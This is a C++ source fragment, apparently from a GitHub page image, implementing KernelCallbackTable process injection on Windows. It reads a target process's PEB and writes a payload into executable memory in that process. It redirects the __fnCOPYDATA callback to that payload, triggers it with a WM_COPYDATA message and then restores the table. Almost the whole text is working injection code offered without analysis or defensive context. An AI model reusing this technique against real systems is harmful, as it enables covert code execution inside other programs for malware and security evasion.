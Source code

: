 ```cpp
	pNtQueryInformationProcess myNtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQueryInformationProcess");
	myNtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), NULL);

	PEB peb;
	ReadProcessMemory(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), NULL);
	printf("[+] PEB Address: 0x%p\n", pbi.PebBaseAddress);

	KERNELCALLBACKTABLE kct;
	ReadProcessMemory(hProcess, peb.KernelCallbackTable, &kct, sizeof(kct), NULL);
	printf("[+] KernelCallbackTable Address: 0x%p\n", peb.KernelCallbackTable);

	// Write the payload to remote process
	LPVOID payloadAddr = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, payloadAddr, payload, payloadSize, NULL);
	printf("[+] Payload Address: 0x%p\n", payloadAddr);

	// 4. Write the new table to the remote process
	LPVOID newKCTAddr = VirtualAllocEx(hProcess, NULL, sizeof(kct), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	kct.__fnCOPYDATA = (ULONG_PTR)payloadAddr;
	WriteProcessMemory(hProcess, newKCTAddr, &kct, sizeof(kct), NULL);
	printf("[+] __fnCOPYDATA: 0x%p\n", kct.__fnCOPYDATA);

	// Update the PEB
	WriteProcessMemory(hProcess, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &newKCTAddr, sizeof(ULONG_PTR), NULL);
	printf("[+] Remote process PEB updated\n");

	// Trigger execution of payload
	COPYDATASTRUCT cds;
	WCHAR msg[] = L"Pwn";
	cds.dwData = 1;
	cds.cbData = lstrlen(msg) * 2;
	cds.lpData = msg;
	SendMessage(hWindow, WM_COPYDATA, (WPARAM)hWindow, (LPARAM)&cds);
	printf("[+] Payload executed\n");

	// Restore original KernelCallbackTable
	WriteProcessMemory(hProcess, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &peb.KernelCallbackTable, sizeof(ULONG_PTR), NULL);
	printf("[+] Original KernelCallbackTable restored\n");

	// Release memory for code and data
	VirtualFreeEx(hProcess, payloadAddr, 0, MEM_DECOMMIT | MEM_RELEASE);
	VirtualFreeEx(hProcess, newKCTAddr, 0, MEM_DECOMMIT | MEM_RELEASE);
	
	// Close handles
	CloseHandle(hWindow);
	CloseHandle(hProcess);
	printf("[+] Cleaned up\n");
}
```
